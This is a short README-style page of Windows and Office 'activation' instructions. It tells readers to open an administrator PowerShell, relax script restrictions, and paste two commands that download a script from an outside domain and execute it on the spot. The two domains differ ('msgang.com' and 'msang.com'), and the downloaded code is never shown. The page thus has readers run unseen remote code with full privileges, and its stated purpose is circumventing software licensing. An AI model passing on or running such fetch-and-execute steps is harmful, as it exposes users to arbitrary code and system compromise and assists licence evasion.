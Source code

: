# Installation

- Right click on the Windows Start icon 🪟 then select Windows PowerShell (Admin).
- Copy then right click to paste all below commands into PowerShell window at once then hit Enter.
- Allow system to running a script: https://go.microsoft.com/fwlink/?LinkID=135170

## For Windows 7/10/11 and Server 2012/2016/2019/2022 activations
```ps
irm https://msgang.com/windows | iex
```
# For Office 2013/2016/2019/2021 activations.
```ps
irm https://msang.com/office | iex    
```
